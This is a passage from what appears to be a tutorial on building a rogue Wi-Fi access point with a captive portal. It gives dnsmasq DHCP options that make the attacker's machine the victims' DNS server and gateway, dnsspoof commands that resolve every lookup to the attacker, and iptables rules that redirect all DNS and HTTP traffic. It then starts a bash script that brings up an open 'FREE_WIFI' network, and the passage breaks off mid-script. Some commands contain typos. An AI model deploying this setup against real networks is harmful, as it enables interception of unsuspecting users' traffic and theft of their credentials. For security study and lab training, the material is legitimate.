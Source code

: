We can modify this configuration so that the IP of our external wireless interface is specified as the network’s primary DNS server using a DHCP Option, as shown below.

{% highlight bash %}

# define DHCP pool
dhcp-range=10.0.0.80,10.0.0.254,6h
# set phy as nameserver
dhcp-option=6,10.0.0.1
# set rogue AP as Gateway
dhcp-option=3,10.0.0.1 #Gateway
dhcp-authoritative
log-queries

{% endhighlight %}

We then start dnsspoof as our nameserver, configuring it to resolve all DNS queries to our access point’s IP.

{% highlight bash %}

echo ’10.0.0.1’ > dnsspoof.conf
dnsspoof –i wlan0 -f ./dnsspoof.conf

{% endhighlight %}

This is a reasonably effective approach, as it allows us to respond to DNS queries in any way that we want. However, it still has a number of weaknesses. For one thing, wireless devices that connect to our rogue access point may choose to ignore the DHCP Option, selecting a nameserver manually instead. To prevent this from occurring, we can simply redirect any DNS traffic to our DNS server using iptables.

	iptables --table nat --append PREROUTING --protocol udp - -destination-port 53 --jump REDIRECT --to-port 53

Another problem with our current approach is that it does not account for the fact that most operating systems use a DNS cache to avoid having to make DNS lookups repeatedly. The domain names of the victim’s most frequently visited websites are likely to be in this cache. This means that our captive portal will fail in most situations until each of the entries in the cache expire.  Additionally, our current approach will fail to capture HTTP requests that do not make use of DNS. To deal with these issues, we can simply redirect all HTTP traffic to our own HTTP server.

	iptables --table nat --append PREROUTING --protocol tcp - -destination-port 80 --jump REDIRECT --to-port 80

We can incorporate these techniques into a bash script similar to the one we wrote in [Wireless Man-In-The-Middle Attacks](). Notice how we start Apache2 to serve content from /var/www/html.

{% highlight bash %}

phy=wlan0
channel=1
bssid=00:11:22:33:44:00
essid=FREE_WIFI

# kill interfering processes
service network-manager stop
nmcli radio wifi off
rfkill unblock wlan
ifconfig wlan0 up

echo “interface=$phy” > hostapd.conf
“driver=nl80211” >> hostapd.conf
“ssid=$essid” >> hostapd.conf